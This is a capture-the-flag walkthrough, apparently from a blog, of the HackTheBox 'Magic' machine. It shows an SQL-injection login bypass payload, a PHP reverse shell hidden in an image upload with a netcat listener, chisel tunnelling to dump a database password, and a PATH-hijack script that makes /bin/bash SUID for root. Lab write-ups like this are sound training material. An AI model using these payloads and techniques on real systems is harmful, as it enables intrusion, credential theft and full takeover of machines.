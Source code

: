 ```yaml
---
title: "Magic"
date: 2025-06-20
categories:
  - HackTheBox
  - Linux
tags:
  - HackTheBox
  - Linux
---
```


# Magic

![](../assets/Pasted%20image%2020250519225835.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.185
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 23:06 CEST
Nmap scan report for 10.10.10.185
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   40.32 ms 10.10.14.1
2   40.62 ms 10.10.10.185

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.41 seconds
```

Port `80` shows a site about magic pictures made in `PHP`.

![](../assets/Pasted%20image%2020250519231718.png)

Searching the bottom right number (it's hex for magic), we find information about a PHP type juggling vulnerability.

There is a login form at `/login.php` that is vulnerable to SQLi.

![](../assets/Pasted%20image%2020250519231941.png)

Intercept the request with `Caido` and put `' OR '1'='1'-- -` in the password field to bypass authentication.

![](../assets/Pasted%20image%2020250520001804.png)

![](../assets/Pasted%20image%2020250520001731.png)

## Initial Access

To bypass the file whitelist (`jpg`, `jpeg`, `png`), put a PHP reverse shell in a normal jpg file.

![](../assets/Pasted%20image%2020250520100330.png)

Upload the file with a double extension `.php.jpg` and go to the path where all images are uploaded: `/images/uploads/`.

![](../assets/Pasted%20image%2020250520104057.png)

So, put a bash reverse shell and start a listener.

![](../assets/Pasted%20image%2020250520131228.png)

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.185] 51236
bash: cannot set terminal process group (1229): Inappropriate ioctl for device
bash: no job control in this shell
www-data@magic:/var/www/Magic/images/uploads$ whoami
whoami
www-data
www-data@magic:/var/www/Magic/images/uploads$ 
```

## Privilege Escalation

Examining the app, we find the database config.

![](../assets/Pasted%20image%2020250520133333.png)

And there is a `mysql` instance on `3306`.

```shell
ss -ntplu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
udp    UNCONN   0        0                 0.0.0.0:54434          0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:5353           0.0.0.0:*     
udp    UNCONN   0        0           127.0.0.53%lo:53             0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:68             0.0.0.0:*     
udp    UNCONN   0        0                 0.0.0.0:631            0.0.0.0:*     
udp    UNCONN   0        0                    [::]:5353              [::]:*     
udp    UNCONN   0        0                    [::]:53480             [::]:*     
tcp    LISTEN   0        80              127.0.0.1:3306           0.0.0.0:*     
tcp    LISTEN   0        128         127.0.0.53%lo:53             0.0.0.0:*     
tcp    LISTEN   0        128               0.0.0.0:22             0.0.0.0:*     
tcp    LISTEN   0        5               127.0.0.1:631            0.0.0.0:*     
tcp    LISTEN   0        128                     *:80                   *:*     
tcp    LISTEN   0        128                  [::]:22                [::]:*     
tcp    LISTEN   0        5                   [::1]:631               [::]:*
```

So, expose the port with `chisel`.

```shell
$ ./chisel server --port 5555 --reverse
2025/05/20 13:50:12 server: Reverse tunnelling enabled
2025/05/20 13:50:12 server: Fingerprint zxld6D6IlWWZXhFcL+dvetmj/NbXygDLvjuOJoR6IaQ=
2025/05/20 13:50:12 server: Listening on http://0.0.0.0:5555
2025/05/20 13:50:24 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening

www-data@magic:/tmp$ ./chisel client 10.10.14.11:5555 R:3306:localhost:3306
./chisel client 10.10.14.11:5555 R:3306:localhost:3306
2025/05/20 04:43:07 client: Connecting to ws://10.10.14.11:5555
2025/05/20 04:43:08 client: Connected (Latency 44.137534ms)
```

And connect to the database.

```shell
$ mysql -u theseus -P 3306 -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 10214
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.043 sec)

MySQL [(none)]> use magic;
ERROR 1044 (42000): Access denied for user 'theseus'@'localhost' to database 'magic'
MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.043 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.041 sec)

MySQL [Magic]> exit
Bye
```

Pivot to `theseus`:

```shell
www-data@magic:/var/www/Magic/images/uploads$ su - theseus
su - theseus
Password: Th3s3usW4sK1ng

theseus@magic:~$ whoami
whoami                                                                                          
theseus
```

Get the flag

```shell
theseus@magic:~$ cat user.txt
cat user.txt
8892373356de16931deba839326cf201
```

![](../assets/Pasted%20image%2020250520140539.png)

Using `ltrace` on `sysinfo` we notice

![](../assets/Pasted%20image%2020250520182234.png)

It calls `fdisk` without the full path.

```shell
$ cat fdisk
chmod +s /bin/bash
```

Add `/tmp` to the user's path and execute:

```shell
theseus@magic:/tmp$ export PATH="/tmp:$PATH"
export PATH="/tmp:$PATH"
theseus@magic:/tmp$ syinfo
syinfo
```

```shell
theseus@magic:/tmp$ ls -alh /bin/bash
ls -alh /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

```shell
theseus@magic:/tmp$ bash -p
bash -p
bash-4.4# whoami
whoami
root
```

## Post Exploitation

```shell
cat root.txt
bcc1fd50a588e421e53dc5e054de001a
```
